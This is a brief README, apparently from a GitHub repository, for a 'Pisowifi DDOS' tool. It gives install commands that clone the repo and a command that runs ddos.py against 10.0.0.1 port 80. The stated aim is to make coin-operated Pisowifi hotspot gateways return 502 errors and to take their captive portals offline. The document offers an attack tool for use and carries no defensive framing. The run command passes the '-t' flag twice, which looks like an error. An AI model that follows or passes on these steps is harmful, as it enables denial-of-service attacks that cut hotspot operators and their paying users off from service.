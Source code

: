 # Pisowifi DDOS
Pisowifi 502 10.0.0.1 Gateway Error and take down captive portal.

# Installation
```
pkg update && pkg upgrade -y && pkg install python3 -y && git clone https://github.com/xiv3r/pisowifi-ddos && cd pisowifi-ddos
```
# Run
```
python3 ddos.py -t 10.0.0.1 -p 80 -t 135
```

